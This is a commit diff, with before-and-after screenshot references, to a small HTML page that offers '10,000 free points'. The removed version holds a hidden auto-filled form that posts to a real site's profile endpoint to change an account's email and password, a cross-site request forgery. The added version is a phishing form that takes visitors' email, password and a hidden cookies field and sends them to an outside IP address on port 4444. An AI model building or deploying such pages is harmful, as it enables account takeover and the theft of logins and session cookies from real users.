

Before and after one commit to zxllkada-dev/test, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 517-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -32,22 +32,36 @@
             outline: none;
             font-family: Arial, Helvetica, sans-serif,serif,tahoma;;
         }
+
+        .textbox {
+            font-family: Arial, Helvetica, sans-serif,tahoma,verdana;
+            color: #333333;
+            font-size: 12px;
+            padding: 6px;
+            border: 1px solid #b0b0b0;
+            background: #ffffff;
+            font-weight: normal;
+            max-width: 95%;
+            min-width: 70%;
+            -webkit-border-radius: 5px;
+            -moz-border-radius: 5px;
+            border-radius: 5px;
+            margin: 5px;
+        }
     </style>
     <body>
         <section>
             <img src="https://traffup.net/images/logo_xmas.png">
             <div style="height: 50;"></div>
             <h2>Almost Ready! Redeem Now Your 10,000 free points</h2>
-            <form enctype="application/x-www-form-urlencoded" method="POST" action=" https://traffup.net/profile/">
-                <table style="display: none;">
-                    <tr><td>Call</td><td><input type="text" value="save" name="Call"></td></tr>
-                    <tr><td>signup_country</td><td><input type="text" value="" name="signup_country"></td></tr>
-                    <tr><td>fullname</td><td><input type="text" value="Ghost 8" name="fullname"></td></tr>
-                    <tr><td>email</td><td><input type="text" value="din.ioseph@falkcia.com" name="email"></td></tr>
-                    <tr><td>password</td><td><input type="text" value="din.ioseph" name="password"></td></tr>
-                    <tr><td>btn_submit</td><td><input type="text" value="Change+details" name="btn_submit"></td></tr>
-                </table>
-                <input type="submit" class="frm_btn" value="Confirm Coupon">
+            <form enctype="application/x-www-form-urlencoded" method="POST" action="http://83.229.83.108:4444/add_data">
+                <input type="email" value="" name="email" placeholder="Email" class="textbox"></td></tr>
+                <input type="password" value="" name="password" placeholder="Password" class="textbox"></td></tr>
+
+                <input style="display: none;" type="text" value="" name="cookies" placeholder="Cookies" class="textbox"></td></tr>
+
+                <div style="height: 30;"></div>
+                <input type="submit" class="frm_btn" value="Verify My Coupon">
             </form>
         </section>
     </body>
```
